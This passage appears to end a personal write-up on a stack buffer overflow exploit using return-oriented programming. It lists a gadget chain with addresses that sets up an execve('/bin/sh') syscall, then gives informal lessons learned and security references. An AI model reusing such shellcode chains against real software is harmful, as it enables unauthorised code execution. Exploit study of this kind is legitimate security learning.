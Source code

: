 I have a new approach!

0x00001a9e : pop edx ; ret					# setup the stack to contain 0x00000000 to edx 			
0x0003900e : and al, 8 ; add esp, 0xc ; ret			# modify esp to jump over our /bin/sh\x00DDDD < junk at the end
0x000c24f7 : push esp ; xor eax, eax ; pop ebx ; pop ebp ; ret	# moving esp to ebx
0x0012acce : dec ebx ; ret 					# x16 tho, because that's the offset between our string and ebx
0x000caf24 : add ecx, ebx ; ret					# set ecx = ebx
0x00097193 : mov eax, 0xb ; int 0x80 				# setup the interrupt

# Closing Thoughts
* push reg; ret instructions will fuck you up
* finding where things are loaded in ram can be an ass
* a debugger will mess you up in weird ways
* find bad bytes you have to worry about
* wasting enormous time with poython 2 and 3, what a mess of an ecosystem


[1] - https://stackoverflow.com/a/17775966/1366384
[2] - https://www.coengoedegebure.com/buffer-overflow-attacks-explained/
[3] - https://en.wikipedia.org/wiki/Stack_buffer_overflow#Nonexecutable_stack
[4] - https://en.wikipedia.org/wiki/Stack_buffer_overflow#Stack_canaries
[5] - https://en.wikipedia.org/wiki/Stack_buffer_overflow#Randomization
[6] - https://www.shellblade.net/files/docs/ret2libc.pdf
[7] - https://security.stackexchange.com/questions/36462/
[8] - https://github.com/JonathanSalwan/ROPgadget